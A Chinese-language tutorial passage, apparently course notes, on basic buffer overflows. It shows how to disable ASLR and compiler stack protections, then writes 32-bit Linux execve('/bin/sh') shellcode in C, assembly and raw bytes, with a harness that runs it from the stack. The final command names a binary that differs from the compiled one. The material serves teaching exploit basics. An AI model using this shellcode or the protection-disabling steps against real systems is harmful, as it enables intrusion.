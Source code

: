 第一章节：缓冲区溢出，也是最基本最简单的一章。
做以上内容之前，首先要关掉一些系统自带的保护措施，例如 ASLR。
```shell
$sudo sysctl -w kernel.randomize_va_space=0
```
另外是编译器自带的栈保护机制：
```shell
$ gcc -fno-stack-protector example.c
$ gcc -z execstack -o example example.c   
```
另外是基本 shellcode 的编写，也就是启动 shell 的代码，在 C 语言中表示如下：
```c
#include <stdio.h>
int main() {
    execve("/bin/sh",0,0);
}                        
```
32 位系统采用 int 0x80 软中断触发系统调用，将中断号和相关寄存器的值传给调用函数。32 位linux 中断号可以在网站上查到，execve 调用号为 0x0b，那么就要将这个值传给 eax 寄存器。ebx指向进程字符串 "/bin/sh"，ecx 和 edx 均为 0.
```
global _start
_start:
  xor eax,eax	;eax置0
  push eax		;入栈作为字符串终止符
  push "//sh"	;字符串依次入栈
  push "/bin"
  mov ebx,esp	;ebx定位到栈顶，即字符串起始点
  mov ecx,eax	;ecx和edx均置0
  xor edx,edx
  mov al,0Bh	;al设为调用号0B
  int 80h			;触发软中断
```
将得到的汇编代码进行编译链接，之后反汇编得到字节码。
```shell
$ nasm -f elf32 shellcode.asm
$ ld -m elf_i386 -o shellcode shellcode.o
$ objdump -d shellcode
```
将得到的 shellcode 写入一个 c 文件，这样就可以启动一个新的 shell。
```c
// shellcode.c
// gcc -z execstack -o shellcode shellcode.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
"\x31\xc0"                   // xor    %eax,%eax
 "\x50"                      // push   %eax
 "\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f
 "\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f
 "\x89\xe3"                 //  mov    %esp,%ebx
 "\x89\xc1"                 //  mov    %eax,$ecx
 "\x31\xd2"                //   xor    %edx,%edx
 "\xb0\x0b"                //   mov    $0xb,%al
 "\xcd\x80"                //   int    $0x80
;

int main(int argc, char **argv){
  char buf[sizeof(code)];
  strcpy(buf, code);
  ((void(*)())buf)();
}
```
最后是编译执行。
```shell
$ gcc -z execstack -o shellcode shellcode.c
$ ./shell
```
另外，使用 pwntools 这一工具可以更简单地实现 shellcode 的制作，直接调用相应函数即可。
